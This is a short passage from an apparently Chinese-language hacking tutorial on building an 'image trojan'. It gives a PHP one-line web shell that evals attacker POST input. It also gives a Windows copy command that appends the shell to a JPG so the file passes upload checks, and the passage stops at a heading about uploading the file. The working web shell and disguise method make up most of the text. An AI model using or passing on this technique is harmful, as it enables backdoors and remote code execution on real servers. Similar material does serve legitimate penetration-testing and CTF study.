 ### 6.1制作一个图片马
我们可以准备一个内容为`<?php @eval($_POST['hello']); ?> `的txt文档(name.txt)和一张不要太大的图片(可以是png/jpg/bng什么的，就叫1.jpg好了)
然后在CMD下使用`copy 1.jpg/b + name.txt/a 2.jpg `命令就可以轻松地得到一个名为2.jpg的图片马
具有一句话木马功能的PHP语句插入在照片数据的最后处

### 6.2上传图片马

